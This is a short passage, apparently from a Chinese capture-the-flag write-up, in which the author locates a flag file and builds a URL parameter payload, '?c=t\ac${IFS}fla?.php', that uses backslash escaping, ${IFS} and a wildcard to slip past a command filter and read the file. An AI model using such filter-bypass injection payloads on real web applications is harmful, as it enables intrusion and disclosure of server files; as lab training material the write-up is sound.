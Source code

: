 没有重定向了，就不需要分隔符了

查看flag位置

![image-20240120170905500](照片/image-20240120170905500.png)

构建命令

```
?c=t\ac${IFS}fla?.php
```

得到flag
